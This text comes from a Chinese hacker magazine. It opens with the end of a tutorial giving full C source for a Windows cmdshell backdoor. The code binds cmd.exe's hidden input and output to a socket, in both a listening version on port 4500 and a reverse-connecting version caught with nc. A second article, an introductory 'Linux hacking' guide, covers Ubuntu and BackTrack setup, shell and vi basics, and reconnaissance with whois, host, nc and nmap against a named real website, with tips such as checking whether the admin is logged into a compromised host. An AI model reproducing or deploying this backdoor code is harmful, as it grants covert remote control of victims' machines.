由于后门要把接收到的命令传递给cmd，并且取得cmd执行的结果，这就涉及到了进程间通信。进程间通信有很多方式，后门当中一般用的是管道通信技术。在这里，我们并不运用这个技术，还有一种更巧妙的方法，这就要利用到CreateProcess函数的lpStartupInfo参数了，我们执行如下代码就可以了。

```c
si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;
```

其中si就是lpStartupInfo参数，s是套接字。这条语句的意思就是把cmd进程的输入输出和套接字s关联起来，这样当套接字s接收到命令时，就会自动把命令传递给cmd进程。当cmd进程有执行结果输出时，就自动把结果通过套接字s发送给用户。这样，这些过程就不必编写代码来实现了。

讲了这么多，该奉献出建立cmdshell的代码了：

```c
DWORD WINAPI Thread(LPVOID lpParam)
{
    SOCKET s = (SOCKET)lpParam;
    STARTUPINFO si;
    GetStartupInfo(&si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    // 使cmd的输入输出直接和socket关联
    si.hStdInput = si.hStdOutput = si.hStdError = (void*)s;
    char cmdline[256];
    // 得到cmd路径
    GetSystemDirectory(cmdline, sizeof(cmdline));
    strcat(cmdline, "\\cmd.exe");
    PROCESS_INFORMATION ProcessInformation;
    int ret;
    // 建立cmd进程
    ret = CreateProcess(NULL, cmdline, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    // 等待进程结束
    WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
    CloseHandle(ProcessInformation.hProcess);
    return 0;
}
```

看了这个函数的定义是不是有些眼熟呢？这就是一个线程函数，也就是说，在后门当中会利用CreateThread函数来调用这个函数，并且在后门中要为每一个连接建立一个创建cmdshell并与之通信的线程。这样，后门就能同时接收多个连接了。

下面给出其它部分代码：

```c
int main(int argc, char* argv[])
char wMessage[512] = "\r\n================ BackDoor by 认真的雪 ================\r\n";

// 建立socket数组
SOCKET sClient;

// 初始化socket，并且监听端口
BYTE minorVer = 2;
BYTE majorVer = 2;
WSADATA wsaData;
WORD sockVersion = MAKEWORD(minorVer, majorVer);
if (WSAStartup(sockVersion, &wsaData) != 0)
    return 0;

SOCKET sListen = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
if (sListen == INVALID_SOCKET)
{
    printf("socket error\n");
    return 0;
}

// 设置socket属性
sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(4500);
sin.sin_addr.S_un.S_addr = INADDR_ANY;

if (bind(sListen, (LPSOCKADDR)&sin, sizeof(sin)) == SOCKET_ERROR)
{
    printf("bind error\n");
    return 0;
}

// 监听端口，参数5表示最多只能接收五个连接
if (listen(sListen, 5) == SOCKET_ERROR)
{
    printf("listen error\n");
    return 0;
}

DWORD dwThreadId;
// 循环，用于接收连接，为每个进程创建cmdshell线程
while (TRUE)
{
    // 接收连接
    sClient = accept(sListen, NULL, NULL);
    // 创建cmdshell进程
    CreateThread(NULL, NULL, Thread, (LPVOID)sClient, 0, &dwThreadId);
    // 发送欢迎消息
    send(sClient, wMessage, strlen(wMessage), 0);
}

return 0;
```

这样，一个正向连接cmdshell后门就完成了，下面来学习反向连接cmdshell后门。反向连接后门就相当于是一个客户端，连接由后门发起，用户相当于服务端，一般用nc监听端口，等待后门连接。cmdshell的线程函数还是和正向连接后门一样，由于比较简单，就直接来看代码吧。

```c
int main(int argc, char* argv[])
```

```c
char wMessage[512] = "\r\n================ BackDoor by 认真的雪 ================\r\n";
BYTE minorVer = 2;
BYTE majorVer = 2;
WSADATA wsaData;
WORD sockVersion = MAKEWORD(minorVer, majorVer);
if (WSAStartup(sockVersion, &wsaData) != 0) {
    return 0;
}
SOCKET s = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
if (s == INVALID_SOCKET) {
    printf("! socket error \n");
    return 0;
}
sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(4500);
sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
if (connect(s, (sockaddr*)&sin, sizeof(sin)) == -1) {
    printf("! connect error \n");
    return 0;
}
if (send(s, wMessage, strlen(wMessage), 0) == SOCKET_ERROR) {
    printf("! Send message error \n");
    return 0;
}
cmdshell(s);
return 0;
```

这个反向后门执行效果如图12所示。

### 七、写在最后

本文部分实例代码参考自笔者的《黑客编程实例精讲2：精通黑客编程》（非安全·黑客手册出品，欢迎邮购），由于只涉及基础速成和让大家对编程有所兴趣，有些方面可能讲得不是十分具体，敬请谅解。

## 窗外的安全——Linux系统攻防初探

“很好，很强大！”这样形容Linux一点都不为过，但为什么在小菜的电脑上很少见到Linux系统呢？

原因一：对Linux不熟悉，因为Windows用户广，接触得多，自然容易学，而一听到Linux就觉得“很软”也是正常的。

原因二：现在的小黑都被称为小灰，黑得不够彻底啊，因为他们过于依赖工具，就是把一堆工具拿来综合利用，将服务器砸死就算赚到了，砸不死就换一个砸，而在Linux下，这样的程序很少。

实际上，Linux/Unix才是真正适合黑客的操作系统，因为它给你强大的功能和绝对的自由度。用Linux你要了解的不是那些工具了，它们只是辅助，你应该知道漏洞是怎样产生的，然后通过各种方法去测试它，开发自己的工具。而Linux能为你提供一个这样的环境，比如我可以轻松地在Linux下创建网络封包并发送，并且可以修改其中任意一层的协议内容，这些在Windows下能做到吗？很难很难。

如果你想做小鸟，我推荐你使用Windows和别人开发好的工具；如果你想做Hacker，针对Linux的Hacking就是你必须要关心的问题。本文将带你了解一下基础的Linux hacking，对于高级的那些，像怎样检测漏洞和编写shellcode，这就不是我们目前所关心的了……什么？你有这个能力？那下面的内容你就没必要看了。

由于版面原因，我不能从最基本讲起，这里只能祈祷你有一定的Linux基础知识了，至少应该用过Linux操作系统。不要我说“打开终端”，你还在想着找到“运行”，然后往里面输cmd。这样的话，我建议你还是先找一本Linux扫盲的书看看。当然，如果你真的没接触过Linux也没有关系，我们先一起简单安装一个Linux，一边用一边学，很快就会了。在读文章的时候遇到不懂的地方，自己去找找Google老师，Linux很简单！

## 第一部分 安装我的Linux

现在地球上的Linux发行版有很多很多，并且时不时地又出来一个新的，所以选哪个发行版来用呢？这个不是香港小姐选美，哪个漂亮，哪个人气高，就选哪个。选Linux发行版## 1.1 Wubi 安装 Ubuntu

我对 Ubuntu 是一见钟情，并且 Ubuntu 推出的 Wubi 安装方式最适合初学者安装使用，所以这里就简单介绍一下用 Wubi 安装 Ubuntu 吧。后面，我们就用这个系统来进一步学习。

Wubi 实际上是一个 Windows 程序，它的功能就是让你能在 Windows 下像安装普通程序一样将 Ubuntu 系统安装到你的电脑上，并且可以随时卸载掉。它采用的方式是在你的 Windows 分区创建一个虚拟磁盘，然后把 Ubuntu 安装到这个虚拟磁盘上。所以，你不用担心现在的数据不小心被破坏，它是绝对安全的。

Ubuntu 系统你可以到 Ubuntu 的官方网站“http://www.ubuntu.org.cn/”下载 Ubuntu 8.04 的安装镜像，刻成光盘或者直接使用虚拟光驱来安装，Ubuntu 的安装光盘里已经包含 Wubi 了（你可以到 Wubi 的网站“http://wubi-installer.org/”下载单独的 Wubi，在安装的时候 Wubi 会自动下载 Ubuntu 的安装光盘，这样显然很慢）。

在 Windows 下插入光盘（不要用光盘启动哦，那就是直接安装了），就会弹出如图 1 的菜单，我们选择第二项“在 Windows 中安装”。


图1　光盘插入后的选择菜单

之后 Wubi 就启动了，显示的安装界面如图 2。Wubi 为 Ubuntu 的安装提供了一个超级简洁的配置，首先选择你想把 Ubuntu 安装在哪个盘，语言当然就选择“Chinese(Simplified)”，就是简体中文。安装的大小建议选择 8G，足够用了。最重要的是设置用户名和密码，这就是你登录 Ubuntu 时要使用的。


图2　Wubi 的安装配置界面

设置好以后点击“安装”，程序就会开始对光盘进行校验和复制文件了。复制完成后，它会提醒你需要重新启动计算机，那我们就重启吧（其实这时 Ubuntu 还没真正开始安装）。重启之后，你就会在 Windows 的启动菜单中看到 Ubuntu 的选项了，如图 3。


图3　启动菜单

选择 Ubuntu，进入 Ubuntu 系统。有时屏幕可能会有一些字符或者黑屏，什么都不要碰，过一小会儿，你就能看到 Ubuntu 启动的徽标了。还是什么都不用管，等 Ubuntu 启动好，它就自动开始安装了，如图 4。


图4　Ubuntu 自动安装

整个过程差不多十几分钟，这里提醒一下，安装的时候最好把你的网线拔掉，因为 Ubuntu 在安装过程中（75% 左右）会连接到网上检查最新的软件包更新，这时候如果连接不顺利的话安装就会停在这里，有时能停几个小时，所以我们直接拔掉网线，不让它联网。

安装完成后重启，这时又来到图 3 的启动菜单，我们进入 Ubuntu。等启动完毕，就出现登录窗口了，如图 5，我们输入用户名密码登录系统，可爱的桌面终于出来了，如图 6。


图5　登录界面


图6　Ubuntu 桌面

#### 1.2 黑客的选择——BackTrack

Wubi 安装的 Ubuntu 是给小菜用的，如果你已经很了解 Linux 系统，自认为是个高手了，那我给你推荐两款真正属于黑客的 Linux 系统（你可别一用就受打击啊），一个是 knoppix-std，还有一个就是最强烈推荐的——BackTrack。据谣传，这个系统是 FBI 使用的，但我没去过 FBI 总部，没办法证实，哪位朋友进去了几天的来跟大伙说说，呵呵。

BackTrack 集成的安全工具可是惊人的，并且最为出名的还是它对无线网络的破解。目前最新版本是 BackTrack 3 Live CD，这是专业的黑客系统，不适合一般的应用。它的界面如图 7，这是 KDE 3.5 的截图，默认的还有其它桌面环境。


图7　BackTrack 3

BackTrack 3 还提供了 USB 版和 VM 版，Live CD 版不能安装到你的电脑上！这样很好，我把光盘一扔，来取证吧，呵呵。以后的内容中，我就把 BackTrack 系统简称为 BT（别当成你下电影用的那个哦）。

现在我们已经安装了系统，接着就来看看基本的命令了。

### 第二部分 简单的基础知识和常用命令

这部分也是为了照顾一下小菜，只是简单地介绍一下，以免用到的时候什么都不知道。让我们先从 shell 开始，这里都是以 Ubuntu 来讲的，其它系统可能会有不同，但差别不大的。

#### 2.1 Shell

Shell 是一个命令解释器，它的样子和 Windows 下的 cmd 差不多，功能也差不多，但要比 cmd 强大得多！我们在 Linux 下执行命令都是在 shell 中执行的，它解释由用户输入的命令并且把它们送到内核。不仅如此，Shell 有自己的编程语言用于对命令的编辑，它允许用户编写由 shell 命令组成的程序。这个叫做 shell 语言或 shell 编程，属于高级应用，这里就不多讲了。

Linux 下的 shell 程序有很多种，你用的是哪个还不需要去关心，它们的基本功能是一样的。发行版都会提供一个“终端”程序，在图形环境下虚拟一个 shell 给我们输入命令，这也是我们俗称的虚拟终端。

在我们刚刚装好的 Ubuntu 中，你可以点开左上角的菜单，在“应用程序”－“附件”中就可以看到“终端”了，如图 8。


图8　终端菜单

打开后如图 9，是不是很像 Windows 下的 cmd 窗口？我们看看里面的内容。


图9　终端窗口

在它的命令提示符前面依次显示的是“你的用户名@计算机名：所在目录”，命令提示符是“$”，而 root 的提示符是“#”。

这里有一些零碎的东西要注意，Linux 是大小写敏感的。在 Linux 中，“/”表示根目录，是所有路径的起点。“~”表示你的 Home 目录。普通用户只能更改你自己 Home 目录下的文件，root 用户有无上的权利，可以不受任何限制对系统做任何事。

最重要的一点，作为 Hacker，你注定要在 shell 下生存，别想着那些漂亮的窗口了，了解 shell 和 shell 脚本，学习 shell 下的命令才是生存之道。

#### 2.2 常用命令

Linux 下的常用命令是要认真掌握的，这里只是简单地介绍一下能用到的用法和参数，其它的大家要自学啊。关于命令的详细帮助，大家可以用命令“命令 --help”查看帮助，或者使用“man 命令”查看 man 手册。例如“cp --help”或“man cp”。下面，就为大家介绍一些相关的常用命令，大家一定要好好记住哦！

##### 2.2.1 文件相关

`ls`

ls 是列目录的命令，就像 cmd 下的 dir。对于这个命令，我们常用到的参数有两个，分别是“-a”和“-l”。“-a”表示列出所有文件，包括隐藏文件和“ls -a”的结果。


图10　列隐藏文件

参数“-l”会列出文件的详细信息，一般我们看文件的权限和所有者的时候就使用“ls -l”命令，你也可以两个参数一起用，如“ls -al”，命令执行结果如图 11。


图11　使用“ls -al”

`pwd`

pwd 命令可以显示当前路径，如果你在系统里转晕了就用这个命令看一下吧。

`cp`

cp 是文件复制命令，用法很简单：“cp 源文件 目标文件”。一般常用的参数是“-r”，用这个参数你可以复制整个目录哦。

`rm`

rm 是删除文件的命令，用法也很简单：“rm 要删除的文件”。常用的参数是“-r”，用这个参数，rm 不仅能删除文件，还能删除目录和目录下的文件，就是一删到底！

`mv`

mv 是移动档案的命令，用法是“mv 源档案 目标档案”，我们一般用这个命令给文件改名。只要移动源文件到同一个目录不就相当于改名了吗？所以你可以用命令“mv ./aa ./bb”来将文件 aa 改名成 bb。

`mkdir`

从名字就能看出来，这个命令是用来创建目录的，用法是“mkdir 目录名”，如果你要同时创建多级目录，就需要加参数“-p”了。如你要在当前文件夹下创建 aa/bb/cc 这样的目录，可以用命令“mkdir -p ./aa/bb/cc”。

`touch`

这个命令的主要作用是创建一个文件或者更改文件的访问时间。用法是“touch 文件名”，如果文件存在，touch 就会修改文件的访问时间为当前时间；如果文件不存在，就会创建一个新文件，文件为空。文件创建好后你可以用 vi 等编辑器在里面添加内容。

##### 2.2.2 文件浏览

`cat`

cat 是个很常用的命令，它的作用就是把文件的内容显示出来。用法是“cat 文件名”。这里要注意，不要用 cat 显示二进制文件的内容，这样有可能导致终端显示不正常。另外，我们还经常用 cat 创建文本文件，用法命令为“cat > 文件名”，然后你就可以输入文件的内容了。输入结束后按“Ctrl+D”返回到终端，如图 12。要注意创建文件时最后一定要回车，这样才能把最后一行写入。


`more`

这也是个很常用的命令，它的作用是把内容一页一页地显示，一般在显示大文件，或者执行返回内容较多的命令时使用。

比如我们用 ls 查看一个文件，它有很多的内容，一页看不完，就可以用 more 分页显示，命令为：“ls | more”。关于“|”和 cat 命令中出现的“>”等符号，分别称为“管道”和“重定向”，主要作用就是改变标准的输入输出，例如“ls | more”的意思就是把 ls 命令的结果交给 more 来再作处理。

Linux 下的很多命令都可以这样组合，用以达到最佳效果。另外，你要知道有个命令叫“less”，其实和“more”的功能是一样的，但“less”可以往前后翻页，随便浏览（more 往下翻页后就没法再往前翻了）。但很多骨灰级玩家都习惯于用“more”。

`od`

cat 只能用来显示文本字符，那如果有二进制文件怎么办呢？这就要用到 od 命令了，它可以以指定的方式显示文件内容，例如八进制或者十六进制等。

常用的参数是“-x”，是以十六进制显示文件内容。命令用法是“od -x 文件名”，如果文件名不指定，程序可以从标准输入设备读取内容（就是你的键盘）。看看我执行“od -x”的效果，从键盘输入字母，如图 13。

##### 2.2.3 用户相关

`passwd`

修改密码的命令，直接输入这个命令就可以修改当前用户密码，如图 14。**注意，Linux 下输入密码是没有回显的，所以没反应不要以为是没有输入进去。**你可以用命令“`passwd 用户名`”来更改别人的密码，当然这需要你有 `root` 权限。另外，`passwd` 还有管理你的密码策略等功能。


`whoami`

这个命令可以查看你当前是以哪个用户的身份进行操作。

`useradd`

添加一个新用户，例如我要添加 `rain2` 用户，直接输入命令“`useradd rain2`”就可以了，其它内容会采用默认设置，你也可以在添加时自己指定。

`userdel`

这个命令当然就是删除用户了，用法为：“`userdel 用户名`”。

`finger`

`finger` 是查看用户信息的命令，用法为“`finger 用户名`”，通过这个命令我们能看到用户的基本信息和登录时间、邮件、计划任务等，如图 15。


`w`

`w` 是查看用户登录信息的命令，一般登录肉鸡后都要 `w` 一下看看管理员在不在。管理员也可以用这个命令知道谁正登录在系统中，如图 16。


##### 2.2.4 权限相关

`sudo` 和 `su`

为了保证系统的安全，默认情况下是不会用 root 用户登录的，但有时由于管理需要，要临时拥有 root 权限，这就要用到这两个命令了。

su 是用于用户转换的命令，你可以在终端中输入“su 用户名”，然后在提示下输入那个用户的密码，这个终端就相当于以那个用户的身份登录了，你就有了一个那个用户的 shell。如果你只用“su”，默认就是以 root 登录（需要 root 密码）。

但这里有个问题，Ubuntu 在安装的时候并没有单独设置 root 密码，你不知道，怎么办呢？所以 Ubuntu 给你一个 sudo 命令解决这个问题（实际上这样系统更安全了），sudo 的命令格式为“sudo 其他命令”，如命令“sudo a”。

在运行这个命令后，系统要求输入的不是 root 的密码，而是你（安装系统时建立的那个用户）的密码，然后命令 a 就会以 root 身份运行。这条命令以后会经常用到。

如果你想直接得到一个 root 的 shell 该怎么办呢？聪明的你一定想到了，直接用命令“sudo su”不就可以了吗？如图 17，注意命令前后的变化。


`chown`

这个是修改文件所有者的命令，root 用的，用法是“chown 用户名 文件名”。

`chmod`

这是修改文件权限的命令，文件的所有者可以更改文件的权限，很重要的！一般的用法是“chmod 权限标识 文件或目录”，如果要更改子目录，需要加上参数“-R”。权限标识可以用数字表示，如 777，也可以通过字符对权限进行设定，如 a+w。

##### 2.2.5 进程相关

`ps`

ps 是查看进程的命令，查看的只是运行命令时的进程情况。用法是直接“ps 参数”，常用的参数有：

- -f：全格式输出
- -l：长格式输出
- -u：按用户名称和启动时间顺序显示进程
- -j：用任务格式来显示进程
- -e：用树形格式来显示进程
- -a：显示所有用户的所有进程（包括其它用户）
- x：显示无控制终端的进程
- r：显示运行中的进程

一般人们喜欢用“ps aux”，你可以自己用一下看看效果，这里就不截图了。

`top`

top 是用来监视进程的，因为它是连续的，你可以一直监视进程的变化、CPU 和内存使用情况等，效果如图 18。你也可以使用“-p pid”参数监视某一个进程的情况。


图18　Top 命令

`kill`

`kill` 是结束进程的命令，用法是 **`kill 信号代码 PID`**，一般信号代码可以省略，常用的是 `-9`，表示强制中止。这个命令经常和 `ps` 等命令配合使用。如果你觉得用 PID 不方便，可以用 **`killall`** 这个命令，这个命令后面加进程名，可以结束所有这个名字的进程。

关于命令就先简单地说这些，每个命令的用法和要注意的地方都很多，这里因为篇幅原因就不能详细讲解了。现在大家对一些基本命令已经有了初步认识，不会说到哪个命令你还会莫名其妙了，在下面的内容中，遇到哪个命令时，我们再对其用法仔细讨论。

## 2.3 vim

Linux 的配置都是以配置文件存放的，我们无论要干嘛肯定都会跟这些文件接触。而在 Hacking 的时候，我们往往都是在控制台模式下的，你不能用可视化的编辑器，所以掌握一款控制台下的编辑器是必须的。

我们就选择 `vi`，因为它是老牌经典，并且随便哪个系统不可能没有这东西（其实现在用的都是 `vim`，对一般用户来说当它们一样就可以了）。直接在终端下输入 **`vi`** 就可以进入 `vi` 的主界面，如图 19。


图19　进入 vi

这样进入 `vi` 就是新建一个空文档，你要在保存的时候指定一个文件名。你也可以用命令 **`vi 文件名`** 来打开编辑一个已经存在的文档。

##### vi 很强大，可以完成我们常用的所有文本操作内容

vi 很强大，可以完成我们常用的所有文本操作内容，但是它的所有操作都是用命令来完成的。也许开始你不习惯，不要紧，用多了你会发现它要比 GUI 下的文本编辑器还好用。

**vi 分为三种模式，分别是“一般模式”“编辑模式”和“指令模式”。**刚进入 vi 的时候你就停留在“一般模式”，这时候你输入的字符都会被 vi 当成是编辑指令，而不是作为字符输入文件中。

在“一般模式”下，你可以用箭头键移动光标到需要的位置，然后按 `i` 键进入“编辑模式”，此时所有键盘字符都会输入到文档中，输入完后按 `ESC` 返回“一般模式”。

> `I` 命令表示在当前光标之前插入文本；`a` 命令表示在光标后插入文本；`r` 是替换当前字符；`R` 是替换当前字符及其后的字符，直至按 ESC 键。

当你编辑好后，就要进入“指令模式”保存文件和退出 vi 了。在“一般模式”下输入冒号 `:` 就可以进入“指令模式”，这时最后一行会以 `:` 开头，等待输入相应指令。

> 常用的有 `w` 保存文件；如果还没有指定文件名，就要用 `w 文件名` 来保存；如果没有修改文档内容，可以用 `q` 退出 vi；如果修改了但不想保存，就用 `q!` 强制退出。

下面是一些常用的命令，不是全部，但一般编辑操作够用了。大家可以自己试验这些命令来掌握 vi 的用法。

- **移动光标类命令**
  - `h`：光标左移一个字符
  - `l`：光标右移一个字符
  - `space`：光标右移一个字符
  - `Backspace`：光标左移一个字符
  - `Enter`：光标下移一行
  - `n+`：光标下移 n 行
  - `n-`：光标上移 n 行
  - `H`：光标移至屏幕顶行
  - `M`：光标移至屏幕中间行
  - `L`：光标移至屏幕最后行
  - `0`：光标移至当前行首
  - `$`：光标移至当前行尾

- **屏幕翻滚类命令**
  - `Ctrl+u`：向文件首翻半屏
  - `Ctrl+d`：向文件尾翻半屏
  - `Ctrl+f`：向文件尾翻一屏
  - `Ctrl+b`：向文件首翻一屏

- **插入文本类命令**
  - `i`：在光标前
  - `I`：在当前行首
  - `a`：在光标后
  - `A`：在当前行尾
  - `o`：在当前行之下新开一行
  - `O`：在当前行之上新开一行


##### 删除命令

- ndw 或 ndW：删除光标处开始及其后的 n-1 个字
- d0：删至行首
- d$：删至行尾
- ndd：删除当前行及其后 n-1 行
- x 或 X：删除一个字符（x 删除光标后的，X 删除光标前的）
- Ctrl+u：删除输入方式下所输入的文本

##### 搜索及替换命令

- /pattern：从光标开始处向文件尾搜索 pattern
- ?pattern：从光标开始处向文件首搜索 pattern
- n：在同一方向重复上一次搜索命令
- N：在反方向上重复上一次搜索命令
- s/p1/p2/g：将当前行中所有 p1 均用 p2 替代
- n1,n2s/p1/p2/g：将 n1 至 n2 行中所有 p1 均用 p2 替代
- g/p1/s//p2/g：将文件中所有 p1 均用 p2 替换

##### 选项设置

- all：列出所有选项设置情况
- number：显示行号

##### 指令模式命令

- n1,n2 co n3：将 n1 行到 n2 行之间的内容拷贝到第 n3 行下
- n1,n2 m n3：将 n1 行到 n2 行之间的内容移至到第 n3 行下
- n1,n2 d：将 n1 行到 n2 行之间的内容删除
- w：保存当前文件
- e filename：打开文件 filename 进行编辑
- x：保存当前文件并退出
- q：退出 vi
- q!：不保存文件并退出 vi
- !command：执行 shell 命令 command
- n1,n2 w!command：将文件中 n1 行至 n2 行的内容作为 command 的输入并执行（若不指定 n1,n2，则表示将整个文件内容作为 command 的输入）
- r!command：将命令 command 的输出结果放到当前行

基本的东西了解之后，我们进入下一部分，了解一下 Linux 下都有哪些优秀的“黑软”吧。

### 第三部分 Linux 下的黑客工具和进攻方式

对于小菜来说，工具就是生命，在 Linux 下也有很多优秀的黑客工具和可以被黑客利用的工具哦，一起去看看。

#### 3.1 “非黑客”工具

之所以称它们为“非黑客”工具，是因为它们当初并不是为 Hacking 而设计，只是我们能用到它们的功能为我们服务，它们都是一些很有用的小命令。首先是踩点相关的，你要定点关照哪个网站，行动之前的踩点是必须的。搜集网站信息你可以用下面的工具。

##### 1、whois

Whois 可以查询域名数据库中的注册信息，相信这个命令在 Windows 下大家也用过，很熟悉的东西，不多讲了。在得到管理员的姓名、组织、联系方式等信息后，配合社会工程学也许会有意想不到的收获。

##### 2、host

除了 whois，对于域名的查询我们还经常用 host 命令，命令格式为 **“host [参数] 域名”**。利用 host 命令不仅可以解析域名，还可以做更多的事情。

大家知道 DNS 规范中包含了很多不同类型的记录，有时候这些记录会为我们渗透提供信息。要取得这些信息，需要加 **“-t 查询类型”** 参数，不指定参数的话，默认就会返回 A、CNAME 和 MX 记录。我们可以用 **“-t any”** 来返回所有能返回的信息。

如图 20 中，是用命令 **“host -t any qq.com”** 返回的信息，有这些信息，我们至少能大体了解到 qq.com 的网络结构。


图20　命令执行结果

我们还可以用 **“host IP”** 将 IP 进行反解析，用以得到主机名，这些信息有时会很有帮助的。

##### 3、traceroute

这个命令可以确定从源主机到目的主机时，数据都经过了哪些主机或路由等，我们通过这些信息可以分析出目标的 ISP、地理位置等。在 Ubuntu 8.04 下，默认没有安装 traceroute，你可以用命令 **“sudo apt-get install traceroute”** 来安装后再使用，如图 21，是 BT 下用 traceroute 查询“黑手”网站的数据。

从图 21 中的主机可以看出来，数据一路到达了重庆市的电信线路，说明“黑手”的服务器放在重庆电信机房。有时你还可以得到数据经过的防火墙类型等信息，这里没有返回，数据也没有到达目的地就中断了，说明下一个位置应该就是机房的防火墙了，并且作了设置，让我们无法深入了。

### 4、NetCat

这个就是传说中的 nc，被称作瑞士军刀，功能就不用多说了吧？我们可以用它通过网络创建管道、传输文件、绑定端口、建立连接等，这可是小菜手中的法宝。我想关于 nc 的用法没人不知道吧？都是黑客的常识了。我就截个用 nc 扫描“黑手”网站端口的图吧，命令为：


图21 命令结果

“nc -v -w 2 -z www.nohack.cn 20-30”，扫描 20-30 号端口，结果如图22，可以看见其中 21、22 和 25 是开放的。


图22 用 nc 扫描

#### 3.2 端口扫描

Windows 下有知名的端口扫描软件，Linux 自然也有强悍的端口扫描器，其中最知名的就是 nmap。你应该听过，被移植到 Windows 下的它也是大放异彩。

在 Ubuntu 下 nmap 默认是没有安装的，你可以在终端中通过命令“sudo apt-get install nmap”来自动下载安装它，如图23。


图23 安装 nmap

安装好以后就可以使用了，nmap 是一个命令行下的扫描器，直接在终端下输入 “nmap” 会显示帮助信息。下面我们就一起来看一下它的用法，这里要注意，你的 shell 最好用 “sudo su” 切换到 root，因为 nmap 的一些功能需要 root 权限。实际上，在 Hacking 中，人们一般都保持在 root 权限下。

其实 nmap 的用法很简单，只是参数多而已，对应功能也就多。Nmap 的语法是 “nmap 参数 目标”，其中如何扫描就是参数控制的，这也是我们要了解的重点。

其中的“参数”主要是指扫描类型，也就是说你要用什么方式扫描目标。nmap 支持很多扫描技术，例如：UDP、TCP connect、TCP SYN（半开扫描）、ftp 代理（bounce 攻击）、反向标志、ICMP、FIN、ACK 扫描、SYN 扫描等，并且还有很多高级一点的应用，比如通过 TCP/IP 协议栈指纹辨别操作系统等功能，先来看看这些扫描选项。

- 扫描时用到的部分选项：
- `-P0`：在扫描之前，不必 ping 主机。
- `-PT`：在扫描之前，使用 TCP ping 确定哪些主机正在运行。
- `-PS`：对于 root 用户，这个选项让 nmap 使用 SYN 包而不是 ACK 包来对目标主机进行扫描。
- `-PI`：设置这个选项，让 nmap 使用真正的 ping（ICMP echo 请求）来扫描目标主机是否正在运行。
- `-PB`：这是默认的 ping 扫描选项，它使用 ACK（-PT）和 ICMP（-PI）两种扫描类型并行扫描。
- `-O`：激活对 TCP/IP 指纹特征（fingerprinting）的扫描，获取目标主机操作系统的类型。
- `-f`：使用碎片 IP 数据包发送 SYN、FIN、XMAS、NULL，增加包过滤、入侵检测系统识别难度。
- `-v`：冗余模式，显示更详细的扫描过程信息。
- `-oN`：把扫描结果重定向到文件 `logfilename`。
- `-iL`：从 `inputfilename` 文件中读取扫描目标。
- `-p <端口范围>`：选择要扫描的端口范围，例如 `-p 80`、`-p 10-80,139,10000-`。
- `-F`：快速扫描模式，只扫描在 nmap-services 文件中列出的端口。


- 部分扫描类型：
- **-sT**：TCP connect() 扫描。这是最基本的 TCP 扫描方式。
- **-sS**：TCP 同步扫描（TCP SYN），通常称为半开扫描（half-open）。返回 SYN/ACK 表示端口监听，返回 RST 表示未监听；通常需要 root 权限构造 SYN 包。
- **-sF / -sX / -sN**：秘密 FIN 数据包扫描、圣诞树（Xmas Tree）、空（Null）扫描模式，即使 SYN 扫描都无法确定时也可尝试。
- **-sP**：ping 扫描。只判断目标主机是否在线，不进行后续端口扫描。
- **-sU**：UDP 扫描。用于探测目标主机提供的 UDP 服务。
- **-sA**：ACK 扫描。通常用于探测防火墙规则集。
- **-sR**：RPC 扫描。结合端口扫描确认 RPC 端口与程序信息；诱饵扫描目前还不能与 RPC 扫描结合使用。

上面就是你能用到的选项和扫描方式，另外一些扫描方式因为不常用，所以就不详细列举了。扫描结果中，扫描的每个端口的状态有：open、filtered、unfiltered 三种。open 表示端口打开；filtered 表示端口被防火墙等过滤，nmap 无法判断是否打开；unfiltered 表示端口未被过滤（文中解释为关闭）。一般大多数端口都是关闭的，所以该状态不常显示。

下面演示几个常用的扫描方式，最基本的是使用 `-v` 参数，建议扫描时加上以获取更多信息。如图 24，命令 `nmap -v www.nohack.cn` 扫描“黑手”网站。

从扫描结果可知，“黑手”开放了 21、22、25、80、3306 端口。TTL 被修改过，不过初步判断是 Linux 系统。若用 nmap 验证操作系统，可加 `-O` 参数，命令如：`nmap -O -v 目标`。但在大型网络中，有时只能得到网络前端设备的信息。

`nmap -O -v -sS -p 21,80 192.168.0.*`

只要知道各参数作用，就可按需组合扫描。例如用 TCP SYN 扫描局域网所有主机的 21 和 80 端口可用上面的命令。注意部分参数不能混用，如 `-sS` 与 `-sT` 不能混用。

如果不喜欢命令行也没关系，nmap 还有前端 GUI 程序供使用，不同实现有很多。


图24　扫描结果

用的是“Zenmap”。

其实很多优秀的命令行程序都会有人为它开发前端程序，所谓前端程序就是一个外壳，让你通过图形界面设置一些选项，然后程序会自动帮你完成命令并调用命令行程序来执行，有的还会将结果进行整理显示。

我们看看“Zenmap”的界面，如图25所示，这是 Ubuntu 下的 Zenmap。在 Ubuntu 下安装它你可以用命令“`sudo apt-get install zenmap`”，然后通过一个 root 的 shell 运行“`zenmap`”就可以了。


图25　Zenmap 的界面

图25中是我快速扫描整个 www.nohack.cn 所在的 C 类网段的结果，你可以看到，在使用的时候你只需要填写上目标 IP，选择一个 Profile 就可以了。所谓的 Profile 就是预先定义好的扫描参数的规则，我选的是扫描操作系统类型的 Profile，下面的命令就自动变成“nmap -O -v 目标IP”的形式了，并且扫描后结果会给你整理好，是不是很方便？

Linux 下优秀的端口扫描器还有很多，像 Nessus（用于远程漏洞扫描）等，这里就不多介绍了，一个 nmap 足够用了。

#### 3.3 网络嗅探

对于对共享网络的攻击和分析，嗅探器是必不可少的角色。而对于 Linux 下的嗅探器，最有名的要算是 tcpdump 了。同样的，你可以通过“sudo apt-get install tcpdump”来安装，这也是一个命令行下的工具，你要用参数来控制它的运行。

它的常用参数如下：

- -a 尝试将网络和广播地址转换成名称。
- -c<数据包数目> 收到指定的数据包数目后就停止进行倾倒操作。
- -d 把编译过的数据包编码转换成可阅读的格式，并倾倒到标准输出。
- -dd 把编译过的数据包编码转换成 C 语言的格式，并倾倒到标准输出。
- -ddd 把编译过的数据包编码转换成十进制数字的格式，并倾倒到标准输出。
- -e 在每列倾倒资料上显示连接层级的文件头。
- -f 用数字显示互联网地址。
- -F<表达文件> 指定内含表达方式的文件。
- -i<网络界面> 使用指定的网络界面送出数据包。
